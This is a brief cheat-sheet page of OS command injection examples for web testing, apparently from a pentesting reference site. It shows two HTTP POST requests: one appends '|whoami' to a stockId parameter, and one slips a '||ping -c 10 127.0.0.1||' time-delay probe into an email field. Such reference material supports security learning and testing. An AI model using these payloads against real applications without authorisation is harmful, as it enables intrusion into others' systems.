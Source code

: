 ```yaml
---
title: Command Injection Examples
desc: Examples of OS Command Injection.
tags: [CommandInjection, Web]
alts: []
website:
render_with_liquid: false
---
```


## Basic

```html
POST /product/stock HTTP/1.1
...

productId=1&stockId=1|whoami
```

<br />

## Blind Command Injection (time delay)

```html
POST /feedback/submit HTTP/1.1
...

name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
```